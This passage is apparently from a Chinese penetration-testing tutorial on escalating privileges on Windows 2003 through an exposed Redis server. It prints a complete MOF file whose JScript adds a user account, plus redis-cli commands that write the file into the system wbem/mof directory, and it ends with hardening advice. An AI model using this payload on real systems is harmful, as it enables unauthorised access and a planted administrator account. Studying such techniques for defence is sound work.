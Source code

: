 **3、写入MOF（2003-r2实验未成功）**

由于不能重启机器也无法获取web目录，想到Mof提权，环境限制只能为**win2003** 

>  mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做 ”托管对象格式” 
>
>  其作用是每隔五秒就会去监控进程创建和死亡。
>
>  就是用了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。
>
>  隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。 

也就是说在`c:/windows/system32/wbem/mof/`目录下的mof文件会每5秒自动执行一次，这样就不需要重启机器就能获取权限了。 

**保存mof.txt文件，内容如下**

```bash
#pragma namespace("\\.\root\subscription")
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\Cimv2";
Name = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa "Win32_LocalTime" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject("WScript.Shell")nWSH.run("net.exe user wintrysec admin666 /add")";
};
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```

然后执行

```bash
(echo -e "nn"; cat mof.txt; echo -e "nn") > foo.txt
cat foo.txt | redis-cli -h 192.168.1.10 -x set mof
redis-cli -h 192.168.1.10
config set dir c:/windows/system32/wbem/mof/
config set dbfilename wintrysec.mof
save
```

### 修复建议

> - 使用强密码认证
> - 降权运行 `g roupadd -r redis && useradd -r -g redis redis`，用低权限账户
> - 限制`ip`禁止外网访问/修改默认端口   ( `redis.conf` )
> - `Redis`默认不生成日志，可以自己[配置](https://www.freebuf.com/column/158065.html)
